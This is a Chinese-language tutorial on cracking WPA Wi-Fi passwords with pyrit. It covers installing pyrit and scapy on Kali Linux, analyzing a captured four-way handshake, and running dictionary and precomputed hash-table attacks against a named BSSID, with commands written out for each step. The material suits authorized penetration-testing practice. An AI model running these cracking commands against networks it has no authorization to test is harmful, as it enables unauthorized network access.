 # WPA渗透-pyrit：GPU加速_Hash-table

## 1.pyrit工具介绍

pyrit是一款开源且完全免费的软件，任何人都可以检查，复制或修改它。它在各种平台上编译和执行，包括FreeBSD、MacOS X和Linux作为操作系统以及x86、alpha、arm等处理器。

使用pyrit工具最大的优点，在于它可以使用除CPU之外的GPU运算加速生成彩虹表，本身支持抓包获取四步握手过程，无须使用airodump抓包，如果已经通过ariodump抓取数据，也可以使用pyrit进行读取。

## 2.安装pyrit

1.修改更新源

```
vim /etc/apt/sources.list

deb http://mirrors.ustc.edu.cn/debian/ buster main contrib non-free
deb http://mirrors.ustc.edu.cn/debian/ buster-updates main contrib non-free
deb http://mirrors.ustc.edu.cn/debian/ buster-backports main contrib non-free
deb http://mirrors.ustc.edu.cn/debian-security buster/updates main contrib non-free
```

2.更新安装源

`apt-get update && apt-get upgrade`

3.下载pyrit

`apt-get install pyrit`

![image.png](https://img.gyxnb.top/img/4919430750de4c8290143fbca1cb8e75.png)

## 3.安装scapy到指定目录步骤

1、下载scapy：

`wget -v https://github.com/secdev/scapy/archive/v2.3.2.tar.gz`

或者将附件里的scapy-2.3.2.tar.gz拷贝到kali

2、解压后进入目录执行：

```
tar -xzvf tar -xzvf scapy-2.3.2.tar.gz
cd scapy-2.3.2 
python2 setup.py build
```

3.安装

`python2 setup.py install`

![image.png](https://img.gyxnb.top/img/2327d8c42b754d94aca354023bb40144.png)

## 4.渗透wifi

1.分析握手包信息

```
pyrit -r cap包 analyze
-r：pcap格式的数据包捕获源
analyze：分析数据包捕获文件

pyrit -r wpa-1-01.cap analyze
```

![image.png](https://img.gyxnb.top/img/20c48a2d1b754004a62b09bd410b92e9.png)

2.密码字典渗透WiFi

```
pyrit -r 握手包 -i 字典 -b bssid attack_passthrough
-i：输入的文件名
-b：按BSSID筛选AccessPoint
attack_passthrough：用文件中的密码攻击握手

pyrit -r wpa-1-01.cap -i /root/wifi/pwd.txt -b d8:24:bd:79:18:0b attack_passthrough
```

![image.png](https://img.gyxnb.top/img/b3e8a66de47e4b42b7aefa54b1bd8b81.png)

3.hash-table加速渗透wifi

```
pyrit -r 握手包 -i 哈希列表 -b bssid attack_cowpatty
attack_cowpatty：攻击一个来自cowpatty文件的PMK握手

pyrit -r wpa-1-01.cap -i /root/wifi/pwdhash -b d8:24:bd:79:18:0b attack_cowpatty
```

![image.png](https://img.gyxnb.top/img/7ac4842f07af45edb5f292983a01215a.png)
